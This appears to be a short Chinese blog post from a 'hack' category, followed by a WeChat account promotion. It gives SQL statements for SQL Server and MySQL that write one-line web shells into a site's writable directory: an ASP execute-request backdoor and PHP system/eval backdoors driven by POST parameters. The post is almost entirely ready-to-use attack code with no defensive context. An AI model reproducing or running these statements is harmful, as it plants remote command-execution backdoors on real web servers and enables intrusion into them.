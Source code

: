 ```yaml
---
layout: post
category: binghe-code-hack
title: SQL语句生成一句话
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: SQL语句生成一句话
lock: need
---
```


# SQL语句生成一句话

**SQLServer执行SQL语句生成一句话**

```sql
select '<%execute request("a")%>' into [NB_master] in 'd:\wwwroot\x.asp;a.xls''excel 8.0;' from NB_master;
```

NB_master必须是已经存在的表

**MySQL执行SQL语句生成一句话**

```sql
select "<?php @system($_POST["cmd"]);?>" into outfile "/home/webaccount/projectname/www/*.php";
```

**完整执行如下：**

```sql
create table a (cmd text not null);
insert into a(cmd) values('<?php eval($_POST[cmd]);?>');
select cmd from a into outfile '网站可写路径/一句话马名.php';
drop table if exists a;
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)